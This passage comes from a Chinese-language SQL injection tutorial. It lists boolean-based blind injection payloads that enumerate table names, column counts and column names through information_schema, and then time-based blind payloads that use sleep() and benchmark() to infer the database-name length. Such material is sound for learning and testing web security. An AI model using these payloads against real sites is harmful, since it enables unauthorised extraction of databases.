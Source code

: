 ###### ④表名

```sql
1' and (ascii(substr((select table_name from information_schema.tables where table_schema=database() limit 0,1),n,1))=m) --+			//n为表名的第几个位置，m为ascii范围[65,122]
```

###### ⑤字段长度

```sql
1' and (length((select column_name from information_schema.columns where table_schema=database() and table_name='表名' limit 0,1))=m) --+		//m为字段名长度 

//获取字段个数
1' and ((select count(*) from information_schema.columns where table_schema=database() and table_name='表名')=m) --+	//m为表的个数
```

###### ⑥字段名

```sql
1' and (ascii(substr((select column_name from information_schema.columns where table_schema=database() and table_name='表名' limit 0,1),n,1))=m) --+		//n为字段名的位置，m为ascii范围[65,122]
```

###### ⑦具体数据

```sql
select 字段 from 表
```

#### (4). 时间盲注

##### a. 相关函数

###### ①sleep()

* 用法：sleep(arg1)，arg1是休眠秒数

  ```sql
  select if(1=1,sleep(10),0)
  ```

###### ②benchmark()

* 用法：benchmark(arg1,arg2)，arg1是执行次数，arg2是执行的表达式

* 延迟时间**只和机器性能有关**

  ```sql
  select if(1=1,benchmark(5000000,md5('abc')),0)
  ```

##### b. 注入流程

###### ①获取数据库名长度

```sql
1' and if((length(database()))>5,sleep(10),0) --+
```

